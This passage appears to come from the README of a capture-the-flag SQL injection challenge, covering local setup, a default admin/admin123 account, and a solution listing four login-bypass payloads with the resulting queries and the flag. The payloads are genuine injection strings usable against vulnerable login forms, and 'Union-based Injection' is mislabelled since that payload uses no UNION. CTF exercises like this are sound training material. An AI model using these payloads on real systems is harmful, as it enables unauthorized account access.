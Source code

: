    **Option 2: Using XAMPP/WAMP/MAMP**
   - Copy the `web_challenge_sqli` folder to `htdocs` directory
   - Access via `http://localhost/web_challenge_sqli`

   **Option 3: Using Apache**
   - Configure virtual host
   - Point to the `web_challenge_sqli` directory

3. **Initialize Database**
   - The database and tables will be created automatically on first access
   - Default admin account is created automatically:
     - Username: `admin`
     - Password: `admin123`

## Challenge Solution

### SQL Injection Payloads

To bypass the login, you can use various SQL injection techniques:

#### Method 1: Classic OR-based Injection
- **Username:** `' OR '1'='1' -- `
- **Password:** (anything)

This works because it creates the query:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = '...'
```

#### Method 2: Comment-based Injection
- **Username:** `admin' -- `
- **Password:** (anything)

This works because it creates the query:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = '...'
```

#### Method 3: Union-based Injection
- **Username:** `' OR 1=1 LIMIT 1 -- `
- **Password:** (anything)

#### Method 4: Always True Condition
- **Username:** `admin' OR '1'='1`
- **Password:** (anything)

### Step-by-Step Solution

1. Open the login page: `http://localhost:8000/login.php`
2. In the username field, enter: `' OR '1'='1' -- `
3. In the password field, enter anything (e.g., `password`)
4. Click Login
5. You will be redirected to the admin dashboard
6. View the flag: `PHXCTF{1Njeksi_Byp44as}`
